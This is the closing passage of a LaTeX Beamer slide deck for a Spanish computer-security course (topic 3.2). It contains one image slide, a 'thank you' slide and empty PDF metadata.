\begin{center}
\includegraphics[width=0.388\textwidth,height=0.841\textheight,keepaspectratio]{img/sl090_1.png}
\end{center}
\end{frame}

\begin{frame}[plain]
  \begin{center}
    {\Huge\bfseries\color{uznavy} ¡Gracias!}\\[1em]
    {\large Seguridad en Sistemas Informáticos --- Tema 3.2}
  \end{center}
\end{frame}

\pdfinfo{ /Title () /Author () /Subject () /Keywords () /Creator () /Producer () }
\end{document}
